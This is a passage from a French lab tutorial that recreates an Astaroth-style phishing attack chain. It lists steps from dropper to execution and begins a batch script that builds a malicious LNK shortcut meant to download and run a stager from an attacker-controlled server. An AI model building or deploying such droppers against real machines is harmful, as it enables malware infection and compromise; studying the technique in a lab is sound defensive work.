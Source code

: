 **Étapes du lab:**
1. Création d'un dropper
2. Création d'un stager
3. Création du payload
4. Création d'un listener
5. Création du serveur
6. Exécution de l'attaque

Le schéma suivant résume les étapes de l'attaque que nous allons créer:

![9492ab5ac512186261b70f0b88ed1801.png](/img/37e8e34768674f94a41fe27c94dea8c6.png)

**1. Création du dropper**

Nous allons créer un dropper qui imite celui délivré par phising lors de la campagne Astaroth.

Pour cela, nous créons un batch qui utilise un script temporaire VBScript pour créer le dropper LNK.

Enregistrer le code suivant en .bat sur la VM Windows 7:

```
@echo off

setlocal enabledelayedexpansion

rem Create a dropper in LNK (shortcut) format that will download and execute the CMD stager.

set SERVER=http://<attacking_ip>/

set PATH_PUBLIC_DIR=C:\Users\Public\Libraries\raw\
rem Create the target directoty if it does not exist.
if not exist "%PATH_PUBLIC_DIR%" mkdir %PATH_PUBLIC_DIR%

set DROPPER_LNK=clickme.lnk
set STAGER_CMD=stager.cmd
set DROPPER_LNK_CREATE=dropper_lnk_create.vbs

set URL_STAGER_CMD=%SERVER%%STAGER_CMD%

set PATH_DROPPER_LNK_CREATE=%PATH_PUBLIC_DIR%%DROPPER_LNK_CREATE%
set PATH_DROPPER_LNK=%PATH_PUBLIC_DIR%%DROPPER_LNK%
```